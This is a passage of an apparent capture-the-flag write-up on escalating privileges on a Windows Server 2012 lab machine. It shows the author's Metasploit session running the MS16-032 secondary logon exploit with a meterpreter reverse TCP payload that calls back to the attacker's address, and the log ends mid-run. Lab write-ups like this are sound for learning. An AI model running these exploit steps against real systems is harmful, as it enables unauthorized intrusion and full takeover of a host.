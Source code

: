 But it did not lead to anything.

I also tried PowerUp, but powershell did not play nice with me. After trying some uploading, I restored to Google.


I google “windows server 2012 privilege escalation exploit” And find this:
https://www.exploit-db.com/exploits/39719

Along with some other exploits I tried, you can see I tried the hwnd_broadcast exploit right before this one. 

```
msf6 exploit(windows/local/ms13_005_hwnd_broadcast) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > options

Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.50.111   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 2
SESSION => 2
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.14.21
LHOST => 10.10.14.21
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.21:4444 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\zIErSTZR.ps1...
[*] Compressing script contents...
[+] Compressed size: 3596
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2524

[*] Sniffing out privileged impersonation token..
```